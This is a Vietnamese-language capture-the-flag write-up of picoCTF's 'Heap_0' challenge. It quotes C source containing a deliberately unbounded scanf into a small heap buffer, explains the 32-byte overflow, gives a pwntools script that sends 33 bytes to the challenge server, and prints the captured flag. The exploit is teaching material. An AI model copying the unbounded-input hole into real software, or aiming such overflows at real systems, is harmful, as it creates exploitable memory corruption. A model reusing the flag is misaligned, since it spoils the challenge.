 # Heap_0
Đến với bài này, đây là một bài ở mức `dễ` nên chắc nó dễ thật =))))

Challenge cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`. Mở file .c thì ta có source của chương trình như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap0!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	int rval = scanf("%d", &choice);
	if (rval == EOF){
	    exit(0);
	}
        if (rval != 1) {
            //printf("Invalid input. Please enter a valid choice.\n");
            //fflush(stdout);
            // Clear input buffer
            //while (getchar() != '\n');
            //continue;
	    exit(0);
        }

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Ta thấy chương trình sẽ chạy như sau:
- Khởi tạo heap bằng cách gọi hàm `init()`
- In ra nội dung của heap bằng cách gọi hàm `print_heap()`
- Khởi tạo menu bằng cách gọi hàm `print_menu()`
- Dựa vào input mà người dùng nhập vào, thực hiện các thao tác khác nhau với heap.

Ta nhìn vào hàm `check_win()`.

``` c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Điều kiện để in flag là dữ liệu được lưu nơi địa chỉ mà `safe_var` trỏ đến khác với chuỗi `bico`.

Tiếp tục nhìn vào hàm `write_buffer()` ta thấy rằng việc nhập vào không giới hạn kí tự (Buffer overflow).

``` c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Khởi chạy local:

![image](https://github.com/user-attachments/assets/4819b7d2-cb88-4fba-981b-bc44678ce2d2)

Ta thấy input nhập vào sẽ bắt đầu lưu trữ từ địa chỉ `0x627d6e71a6b0` và địa chỉ mà con trỏ `safe_var` trỏ đến là `0x627d6e71a6d0`. Ta có offset là 32 bytes, giờ ta sẽ nhập 33 kí tự 'a' để làm thay đổi dữ liệu được lưu trữ ở địa chỉ `0x627d6e71a6d0`.

![image](https://github.com/user-attachments/assets/fc16681f-189a-44a2-b782-2f3f0cbc6383)

Ta thấy dữ liệu được lưu trữ ở địa chỉ `0x627d6e71a6d0` đã thành a.

![image](https://github.com/user-attachments/assets/5e77f26a-51cb-41c3-9a3d-f54ef6fa15d4)

Và tôi `WIN`, giờ ta có file exploit như sau:

``` python
from pwn import *

#p = process('./chall')
p = remote('tethys.picoctf.net', 53076)
write = b'2'
flag = b'4'
payload = 33 * 'a'
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:
```
picoCTF{my_first_heap_overflow_0c473fe8}
```
